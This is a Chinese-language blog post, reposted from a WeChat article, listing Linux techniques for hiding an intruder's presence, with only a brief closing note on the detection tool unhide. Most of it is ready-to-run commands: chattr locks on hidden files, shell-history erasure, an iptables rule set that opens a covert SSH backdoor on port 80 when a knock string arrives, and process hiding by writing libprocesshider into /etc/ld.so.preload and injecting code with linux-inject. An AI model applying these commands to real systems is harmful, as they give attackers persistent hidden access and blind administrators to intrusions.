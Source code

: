```yaml
---
title: "Linux隐藏技术"
layout: post
date: 2019-09-05
image: /assets/images/markdown.jpg
headerImage: false
tag:
- markdown
- components
- extra
category: blog
blog: true
author: DshSec
description: 涉及Linux下文件隐藏、进程隐藏、端口复用

---
```


#####  原文信息
原文作者：Bypass公众号   
原文链接：[点击此处直接访问](https://mp.weixin.qq.com/s?srcid=0902Zm6E1XSvVIgYt2Q3jSZm&scene=23&sharer_sharetime=1567437712765&mid=2448904250&sharer_shareid=64458b89777349122de4fc747d336e14&sn=cce745079e51ab4bb013de00c2125bf0&idx=1&__biz=MzA3NzE2MjgwMg%3D%3D&chksm=8b55c067bc22497125d4bd5f7a03e46c214d5db11e5bbdbb8422c92cbcf85e3653def6bab6c5&mpshare=1&key=b1d774c47332243a7516756d3a9fe660b8c7273d25a3a287bd403be11be6776acfe040d8b96edbaf8401c621fdcbd22748edd0c8295201dfafbc1aa7145e0cd9d0f5461881deb303b24b52a0cd9126d8&ascene=1&uin=MTA1MTI5MTUyMQ%3D%3D&devicetype=Windows+10&version=62060834&lang=zh_CN&pass_ticket=XTJUAgoC6SLk6U6jutYqGfS1%2BFGlLiWGnPMvZJGYArRcBGENrZolo0laVgipfxHI)
##### Linux创建隐藏文件
	touch .test.txt  		文件名前加点就是隐藏文件
#####  Linux隐藏权限
*创建一个root和其他用户删不了的文件，并且用ls-la 看不出来权限*    

	chattr +i .test.txt 		锁定一个隐藏文件(也可以是普通文件)  
	lsattr .test.txt			属性查看  
	chattr -i .test.txt		解除锁定  
##### 隐藏历史操作命令
+  开启无痕模式  
	```
	[space] set +o history	开启无痕操作模式	[space]表示空格，由于空格的缘故该命令本身也不会被记录
	[space] set -o history 	关闭无痕模式  工作执行完成后，再执行这个命令  
	```
+  删除指定的历史记录  
	```
	history -d [num]  
	```
+  批量删除历史记录  
	```
	sed -i '150,$d' .bash_history 	只保留前150条
	```

#####  端口复用实现隐藏端口
*通过端口复用来达到隐藏端口的目的*  

+  通过SSLH在同一端口上共享SSH和HTTPS  
```
	sudo apt-get install sslh  #安装sslh  
	sudo vi /etc/default/sslh	#编辑SSLH配置文件  
	1.修改Run=no 为Run=yes  
	2.修改下列行以允许SSLH在所有可用接口上侦听端口443  
	 DAEMON_OPTS="--user sslh --listen 0.0.0.0:443 --ssh 127.0.0.1:22 --ssl 127.0.0.1:443 --pidfile /var/run/sslh/sslh.pid"
```
+  利用IPTables进行端口复用
```
	#端口复用链   
	iptables -t nat -N LETMEIN    
 	# 端口复用规则   
	iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22   
	# 开启开关   
	iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT  
	# 关闭开关  
	iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT  
	# let's do it  
	iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN  
```
+  利用方式  
```
	#开启复用    
	echo threathuntercoming | socat - tcp:192.168.28.128:80   
	#ssh使用80端口进行登录   
	ssh -p 80 root@192.168.28.128   
	#关闭复用   
	echo threathunterleaving | socat - tcp:192.168.28.128:80   
```
查看详细介绍请点击：[远程遥控 IPTables 进行端口复用](https://www.freebuf.com/articles/network/137683.html)

#####  进程隐藏  
*管理员无法通过相关命令工具查找到你运行的进程，从而达到隐藏目的，实现进程隐藏*  

+  通过libprocesshider进行隐藏   
github项目地址：https://github.com/gianlucaborello/libprocesshider   
利用LD_PRELOAD来实现系统函数的劫持   
```
	# 下载程序编译   
	git clone https://github.com/gianlucaborello/libprocesshider.git    
	cd libprocesshider/ && make   
	# 移动文件到/usr/local/lib/目录下   
	cp libprocesshider.so /usr/local/lib/   
	# 把它加载到全局动态连接局   
	echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload   
```
+   使用linux-inject进行进程注入   
github项目地址：https://github.com/gaffe23/linux-inject.git   
linux-inject是用于将共享对象注入Linux的工具   
```
	# 下载程序编译   
	git clone https://github.com/gaffe23/linux-inject.git    
	cd linux-inject && make   
	# 测试进程   
	./sample-target   
	# 进程注入    
	./inject -n sample-target sample-library.so   
```

##### 如何在linux中发现隐藏的进程？
>unhide 是一个小巧的网络取证工具，能够发现那些借助rootkit，LKM及其它技术隐藏的进程和TCP / UDP端口。这个工具在Linux，UNIX类，MS-Windows等操作系统下都可以工作。  
>下载地址：http://www.unhide-forensics.info/    
>安装   
>sudo yum install unhide   
>使用   
>unhide [options] test_list   
